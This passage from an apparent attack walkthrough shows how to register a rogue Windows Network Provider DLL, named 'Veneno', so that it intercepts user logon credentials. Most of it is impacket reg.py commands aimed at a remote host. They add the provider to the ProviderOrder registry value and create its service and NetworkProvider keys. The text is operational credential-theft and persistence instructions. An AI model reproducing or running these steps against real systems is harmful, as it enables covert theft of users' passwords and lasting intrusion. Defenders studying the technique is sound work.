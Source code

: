 Then ad *Veneno* in the providers, this will be which intercept the credentials.
```impacket
reg.py mokete@Windows10.brain.body add -keyName 'HKLM\SYSTEM\CurrentControlSet\Control\NetworkProvider\Order' -v ProviderOrder -vt REG_SZ -vd "VBoxSF,RDPNP,LanmanWorkstation,WebClient,Veneno"
```

<p align="center">
   <img src="/assets/img/NP-providers2.png">
</p>

After we create the "path" in the *ControlSet* until indicate the dll which have charge
```impacket
reg.py mokete@Windows10.brain.body add -keyName 'HKLM\SYSTEM\CurrentControlSet\Services\Veneno'
```

<p align="center">
   <img src="/assets/img/NP-providers3.png">
</p>

```impacket
reg.py smokete@Windows10.brain.body add -keyName 'HKLM\SYSTEM\CurrentControlSet\Services\Veneno\NetworkProvider'
```
<p align="center">
   <img src="/assets/img/NP-providers4.png">
</p>

```impacket
reg.py mokete@Windows10.brain.body add  -keyName 'HKLM\SYSTEM\CurrentControlSet\Services\Veneno\NetworkProvider' -v Class -vt REG_DWORD -vd 2
```
